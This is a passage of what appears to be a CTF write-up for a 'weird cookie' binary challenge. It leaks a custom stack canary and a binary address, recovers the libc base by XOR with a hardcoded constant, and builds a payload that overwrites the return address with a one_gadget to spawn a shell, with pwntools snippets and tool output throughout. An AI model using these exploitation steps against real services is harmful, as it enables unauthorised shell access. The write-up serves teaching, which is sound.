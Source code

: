 By parsing different offsets of the leaked bytes we find the following

```bash
$ python3 exploit.py LOCAL
Leak: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb1\xf0\xd1\xbe\xc0)4\x12\x90\xc2\xc4\x8d\x86U\n'
Leak_1: 0x123429191f4520b1
Leak_2: 0x561f4f3a21a8
```
{: .nolineno }

We find two leaks: The first one being something looking like the initialized `canary_copy`, and the second one being a binary-leak which we can get the piebase from
```python
canary = int(u64(leak[40:48].rstrip().ljust(8, b"\x00")))
main = int(u64(leak[48:54].rstrip().ljust(8, b"\x00")))-0xe8
exe.address = main - exe.sym.main
```
{: .nolineno }

The "almost-canary" value is interesting, because it is similar to the value from the reversed main-function. Looking at the assembly-code of the main function we find a xor-operation being performed
![Xor operation](weird_cookie_xorrev.png)

There is also a hardcoded value which is being loaded, `0x123456789abcdef1`, if we xor this value with our `leak_2` we get `0x7f6185f9fe40` which is a libc address `0x64e40` from the libc base address!

So from the first input we can get the base address of both the binary and the libc. This would be perfect to ROP by calling `system("/bin/sh")`. However, since we only can input 64 bytes we are only able to barely overflow into the RIP-register with 1 gadget, but to call `system("/bin/sh")` we need 3 gadgets (pop gadget, address of "/bin/sh", and system() call).

Luckily we can use a `one_gadget`, which is an address in libc which under certain constraints will be able to call `execve("/bin/sh")` and give us shell.

We have 3 gadgets to try
```bash
$ one_gadget ./libc-2.27.so
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
{: .nolineno }

The first one works fine, so we will use that one. Note that during this overflow, unless `saved_canary == canary_copy` the program will call `exit(0)` and not return, so we need to overwrite the leaked canary with its existing value to be able to ROP. This payload then becomes
```python
io.recvuntil(b"again.")
payload = b"A"*canary_offset
payload += pack(canary)
payload += pack(0x0)
payload += pack(libc.address + 0x4f2a5)
```
{: .nolineno }

